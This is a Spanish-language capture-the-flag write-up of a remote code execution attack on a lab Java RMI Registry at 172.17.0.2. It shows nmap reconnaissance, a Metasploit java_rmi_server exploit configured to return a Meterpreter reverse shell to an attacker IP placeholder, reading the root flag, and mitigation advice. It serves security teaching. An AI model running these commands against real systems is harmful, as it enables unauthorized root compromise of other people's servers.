




**Fecha:** 18 de Mayo, 2026

**Severidad:** Crítica 🔴

**Autor**: SBZTNGNR

**Objetivo:** `172.17.0.2`

**Plataforma**: WhoAmI-Labs.com

---

**Vulnerabilidad Identificada:** Ejecución Remota de Código (RCE) mediante la configuración por defecto de Java RMI Registry.

---

## 1. Fase de Reconocimiento y Enumeración

### Escaneo Inicial de Puertos

Se realizó un escaneo selectivo de puertos mediante la herramienta `nmap` para identificar los servicios expuestos en el host objetivo.

`nmap -sC -sV -p- -T4 --min-rate 1000 172.17.0.2 -oN scan_msfvenom.txt`

**Resultados del escaneo:**

- `1099/tcp` - open - `java-rmi` (GNU Classpath grmiregistry)
 
- `45897/tcp` - open - `java-rmi` (Puerto de comunicación dinámica)


### Enumeración Avanzada del Servicio

Al detectar el registro RMI en el puerto `1099`, se procedió a ejecutar los scripts de enumeración específicos de Nmap (`NSE`) para verificar fallos de configuración.

```
nmap -p 1099 --script "rmi-*" 172.17.0.2
```

**Hallazgo clave:** El script `rmi-vuln-classloader` confirmó que el entorno es **VULNERABLE** debido a que la configuración por defecto permite la carga de clases desde URLs remotas externas utilizando la propiedad `java.rmi.server.codebase`.



---

## 2. Fase de Explotación (Vía de Ataque)

### Mecanismo del Impacto

El servicio Java RMI Registry confía ciegamente en las peticiones que indican dónde descargar componentes de ejecución. Un atacante puede levantar un servidor web temporal que aloje una clase Java maliciosa (`.class`) generada con la lógica de _payloads_ de `msfvenom`. Al interactuar con el puerto `1099`, se le ordena al servidor víctima que descargue y ejecute dicho archivo en memoria, otorgando control total.

### Ejecución del Exploit

Se utilizó el framework **Metasploit** para automatizar el ataque mediante el módulo de explotación de registros RMI remotos.****

```
msfconsole -q
use exploit/multi/misc/java_rmi_server
set RHOSTS 172.17.0.2
set RPORT 1099
set LHOST <IP_ATACANTE>
set LPORT 4444
run
```

**Resultado:** El exploit levantó de forma exitosa el servidor HTTP local, envió el puntero de descarga a la víctima y esta ejecutó el payload, devolviendo una sesión de **Meterpreter** con privilegios máximos (`root`).
```
*nota:*
usar el comando "shell" para ejecutar comandos nativos de Linux
```




---

## 3. Post-Explotación y Evidencia (PoC)

Una vez obtenido el acceso como administrador del sistema, se procedió a la búsqueda de la prueba de compromiso (Flag), localizándola en el directorio correspondiente.

```
cat /root/flag.txt
```

**Flag Obtenida:** `JAVA{rm1_d3s3r14l1z4t10n_rce_3xpl01t}`

---

## 4. Mitigación y Remediación (Defensa)

Para solucionar de manera definitiva esta vulnerabilidad en entornos Java RMI, se deben aplicar las siguientes contramedidas:

- **Deshabilitar la carga remota de clases:** Se debe asegurar que la propiedad de la Máquina Virtual de Java (JVM) llamada `java.rmi.server.useCodebaseOnly` esté configurada explícitamente en `true`. Esto evita que el registro RMI descargue clases desde ubicaciones URL especificadas en las solicitudes entrantes.

- **Restricción de Red (Firewalling):** El puerto del registro RMI (`1099`) y sus puertos dinámicos asociados nunca deben estar expuestos directamente a redes públicas o no confiables. Deben ser aislados mediante reglas de firewall o accesibles únicamente a través de conexiones de bucle local (`localhost`) o VPNs corporativas.

- **Autenticación y Cifrado:** Configurar el registro RMI para requerir autenticación mediante SSL/TLS (`SslRMIClientSocketFactory` y `SslRMIServerSocketFactory`) para asegurar que solo los clientes autorizados puedan consultar o registrar objetos.
